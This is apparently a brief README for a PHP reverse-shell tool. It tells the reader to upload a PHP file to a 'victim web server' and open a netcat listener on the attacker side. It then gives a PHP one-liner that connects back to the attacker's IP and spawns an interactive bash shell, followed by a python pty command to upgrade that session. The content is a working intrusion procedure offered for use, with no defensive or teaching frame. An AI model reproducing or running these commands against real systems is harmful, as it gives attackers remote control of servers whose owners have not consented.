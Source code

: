 # phpReverseshell
Note: 1. This is PHP based reverse shell 
      2. shell_exec() should be enables at server side (Victim web server)
Upload the 9090909090101010101010.php into webserver.
At attacker side run "nc -lvp $ATTACKER_PORT" (ex: nc -lvp 1234).
Then access http://server_IP/location_of_9090909090101010101010.php.
and input php -r '$sock=fsockopen("$Attacker_IP",$ATTACKER_PORT);exec("/bin/bash -i <&3 >&3 2>&3");' and hit Run.
Reverse shell will be created at attacker side.

After getting session at attacker side run "python -c 'import pty; pty.spawn("/bin/bash")'" to get TTY session

